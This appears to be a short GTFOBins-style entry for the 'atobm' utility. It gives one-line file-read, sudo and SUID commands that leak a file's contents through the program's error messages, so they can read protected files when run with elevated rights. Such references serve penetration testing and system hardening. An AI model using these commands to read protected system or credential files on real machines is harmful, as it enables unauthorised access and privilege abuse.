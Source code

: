 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
  sudo:
    - code: |
        LFILE=file_to_read
        sudo atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
  suid:
    - code: |
        LFILE=file_to_read
        ./atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
---
